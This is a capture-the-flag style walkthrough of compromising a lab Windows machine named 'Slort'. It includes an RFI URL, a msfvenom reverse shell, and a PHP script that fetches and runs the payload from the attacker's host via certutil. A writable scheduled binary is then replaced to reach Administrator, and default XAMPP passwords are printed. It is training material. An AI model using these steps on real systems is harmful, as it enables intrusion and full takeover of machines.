




# Slort (rough notes)

Initial port enumeration

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ nmap -v -Pn -p- -T4 slort   
...

PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

Service version fingerprinting and service scripts:

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ nmap -v -Pn -p 21,135,139,445,3306,4443,5040,7680,8080,49664,49665,49666,49667,49668,49669 -A slort
...

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   HTTPOptions, LANDesk-RC, NCP, NULL, NotesRPC, SIPOptions, TerminalServerCookie, WMSRequest: 
|_    Host '192.168.45.205' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-title: Welcome to XAMPP
|_Requested resource was http://slort:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Welcome to XAMPP
|_Requested resource was http://slort:8080/dashboard/
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=3/9%Time=65EC8C91%P=aarch64-unknown-linux-
SF:gnu%r(NULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.205'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(H
SF:TTPOptions,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.205'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(T
SF:erminalServerCookie,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.205'\x
SF:20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20ser
SF:ver")%r(SIPOptions,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.205'\x2
SF:0is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20serv
SF:er")%r(LANDesk-RC,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.205'\x20
SF:is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20serve
SF:r")%r(NCP,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.205'\x20is\x20no
SF:t\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(No
SF:tesRPC,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.205'\x20is\x20not\x
SF:20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(WMSRe
SF:quest,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.205'\x20is\x20not\x2
SF:0allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-09T16:24:17
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

A UDP scan came back with nothing...

No anonymous FTP access:

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ ftp slort
Connected to slort.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
Name (slort:kali): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
```

No relevant exploit-db hits for filezilla (some for DoS, but we don't care about that):

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ searchsploit filezilla
--------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                             |  Path
--------------------------------------------------------------------------- ---------------------------------
FileZilla 2.2.15 - FTP Client Hard-Coded Cipher Key                        | windows/dos/26220.c
FileZilla 3.11.0.2 SFTP Module - Denial of Service                         | windows/dos/37286.py
FileZilla 3.33 - Buffer Overflow (PoC)                                     | linux/dos/45576.py
FileZilla 3.40.0 - 'Local search' / 'Local site' Denial of Service (PoC)   | linux/dos/46484.txt
FileZilla Client 2.2.x - Remote Buffer Overflow (SEH)                      | windows/remote/37729.py
FileZilla Client 3.63.1 - 'TextShaping.dl' DLL Hijacking                   | windows/local/51267.txt
FileZilla FTP Client 3.17.0.0 - Unquoted Path Privilege Escalation         | windows/local/39803.txt
FileZilla FTP Server 0.9.20b/0.9.21 - 'STOR' Denial of Service             | windows/dos/2901.php
FileZilla FTP Server 0.9.21 - 'LIST/NLST' Denial of Service                | windows/dos/2914.php
FileZilla Server Terminal 0.9.4d - Buffer Overflow (PoC)                   | windows/dos/1336.cpp
--------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

No anonymous SMB access:

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ smbclient -L slort -N               
session setup failed: NT_STATUS_ACCESS_DENIED
```

Mysql doesn't allow connections from our IP...

So we turn our attention to the ports 4443, 5040, 7680, and 8080:


```
4443/tcp  open  http
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http     
```

Port 5040 is the default port for the "RPC listener for the Windows Deployment Services server", as per [this Microsoft documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/mt670791(v=ws.11)). We'll ignore that for now.

Port 7680 is used for "Windows Update Delivery Optimization" as per [this page](https://www.speedguide.net/port.php?port=7680). We'll ignore that for now.

Both ports 4443 and 8080 serve "XAMPP for Windows 7.4.6" applications.



There are no relevant hits on exploit-db for this version of XAMPP, we will likely find another webapp somewhere in non-root paths... 

We'll enumerate paths on both with `gobuster`.

> Note: both servers (4443, and 8080) came back with the exact same results, so I only include one below.

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ gobuster dir -u http://slort:8080/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://slort:8080/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 327] [--> http://slort:8080/img/]
/site                 (Status: 301) [Size: 328] [--> http://slort:8080/site/]
/examples             (Status: 503) [Size: 1051]
/licenses             (Status: 403) [Size: 1196]
/dashboard            (Status: 301) [Size: 333] [--> http://slort:8080/dashboard/]
/%20                  (Status: 403) [Size: 1037]
/IMG                  (Status: 301) [Size: 327] [--> http://slort:8080/IMG/]
/Site                 (Status: 301) [Size: 328] [--> http://slort:8080/Site/]
/*checkout*           (Status: 403) [Size: 1037]
/Img                  (Status: 301) [Size: 327] [--> http://slort:8080/Img/]
/phpmyadmin           (Status: 403) [Size: 1196]
/webalizer            (Status: 403) [Size: 1037]
/*docroot*            (Status: 403) [Size: 1037]
/*                    (Status: 403) [Size: 1037]
/con                  (Status: 403) [Size: 1037]
/Dashboard            (Status: 301) [Size: 333] [--> http://slort:8080/Dashboard/]
/http%3A              (Status: 403) [Size: 1037]
/**http%3a            (Status: 403) [Size: 1037]
/*http%3A             (Status: 403) [Size: 1037]
/xampp                (Status: 301) [Size: 329] [--> http://slort:8080/xampp/]
/aux                  (Status: 403) [Size: 1037]
/**http%3A            (Status: 403) [Size: 1037]
/%C0                  (Status: 403) [Size: 1037]
/SITE                 (Status: 301) [Size: 328] [--> http://slort:8080/SITE/]
             (... more 403s ...)
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

The `/site` path looks interesting... checking it out in the browser we get some kind of template webapp. More importantly, I notice that I get redirected to `/site/index.php&page=main.php`...

It seems that the server's framework is using the “page” variable to fetch files dynamically. **This is an indication of a potential Local File Inclusion (LFI) attack and possibly Remote File Inclusion (RFI)**.



I confirm there is LFI (we get an error for the invocation of the `include()` php function with a file that does not exist)



RFI is easier to abuse so it's good practice to always check for that as well... In my Kali box, I serve up a canary file to test for RFI:

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ echo 'i am a canary' >> canary.txt
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/slort]
└─$ python -m http.server 443                                                                              
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

And look at that! RFI confirmed.



What's left is serving a reverse shell the same way we served the canary file and getting the remote machine to execute it.

We need to create an executable reverse shell for windows:

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.205 LPORT=4242 -f exe > rshell.exe      
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

And a PHP script to download and run the executable:

```
<?php

$KALI_HTTP_SERVER_HOST = "192.168.45.205";
$KALI_HTTP_SERVER_PORT = 443;
$FILENAME = "rshell.exe";

$url = sprintf("http://%s:%d/%s", $KALI_HTTP_SERVER_HOST, $KALI_HTTP_SERVER_PORT, $FILENAME);
$download_cmd = sprintf("certutil.exe -f %s %s", $url, $FILENAME);

$download_out = system($download_cmd); // download the executable
$execute_out = system($FILENAME);      // run the executable

?>
```

Before opening it in the xampp app, we set up the local listener on the port we wrote in the reverse shell (4242):

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ nc -lnvp 4242
listening on [any] 4242 ...
```

Opening the page in the browser gives us a shell!

> The URL is `http://slort:8080/site/index.php?page=http://192.168.45.205:443/rshell.php`

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.176.53] 50822
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>echo %username%
echo %username%
rupert
```

We find our first flag in `rupert`s Desktop:

```
C:\Users\rupert\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Users\rupert\Desktop

05/04/2022  12:53 AM    <DIR>          .
05/04/2022  12:53 AM    <DIR>          ..
03/09/2024  08:17 AM                34 local.txt
               1 File(s)             34 bytes
               2 Dir(s)  28,529,451,008 bytes free

C:\Users\rupert\Desktop>type local.txt
type local.txt
8d64c8790862bc5cd63850e1f42df12e
```

## Privilege Escalation

I have no idea where to even start regarding PE on a windows machine... We'll look around for a bit and then run WinPEAS if nothing else...

We find an interesting file `passwords.txt` in `C:\xampp`:

```
C:\xampp>type passwords.txt
type passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     
```

I find some an interesting top level "Backup" directory in the C drive:

```
C:\Backup>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

07/20/2020  06:08 AM    <DIR>          .
07/20/2020  06:08 AM    <DIR>          ..
06/12/2020  06:45 AM            11,304 backup.txt
06/12/2020  06:45 AM                73 info.txt
06/23/2020  06:49 PM            73,802 TFTP.EXE
               3 File(s)         85,179 bytes
               2 Dir(s)  28,518,998,016 bytes free
```

The `info.txt` file:

```
C:\Backup>type info.txt
type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

So I'm guessing some backup job runs every 5 minutes. I wonder if it runs as Administrator. If that is the case we could replace the executable with our reverse shell executable that we used before, and then we'd get a shell as Administrator.

I first back-up that executable in case we need it later (by copying it)

```
C:\Backup>COPY TFTP.EXE TFTP.EXE.BAK
COPY TFTP.EXE TFTP.EXE.BAK
        1 file(s) copied.
```

I then download the executable (`rshell.exe`) as `TFTP.EXE`.

```
C:\Backup>certutil.exe -urlcache -f http://192.168.45.205:443/rshell.exe TFTP.EXE
certutil.exe -urlcache -f http://192.168.45.205:443/rshell.exe TFTP.EXE
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

I confirm the executable is updated by looking at the last update time of the file:

```
C:\Backup>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

03/09/2024  10:37 AM    <DIR>          .
03/09/2024  10:37 AM    <DIR>          ..
06/12/2020  06:45 AM            11,304 backup.txt
06/12/2020  06:45 AM                73 info.txt
03/09/2024  10:38 AM            73,802 TFTP.EXE
06/23/2020  06:49 PM            73,802 TFTP.EXE.BAK
               4 File(s)        158,981 bytes
               2 Dir(s)  28,518,903,808 bytes free
```

I exit the machine, and restart the listener...

```
C:\Backup>^C

┌──(kali㉿kali)-[~/offsec/slort]
└─$ nc -lnvp 4242
listening on [any] 4242 ...
```

Within a couple of minutes we got a shell as Administrator!

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.176.53] 50944
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

And we find our flag where we expect it:

```
C:\WINDOWS\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
368aba713e3eaf4fb22535f9bf6e5a8b
```

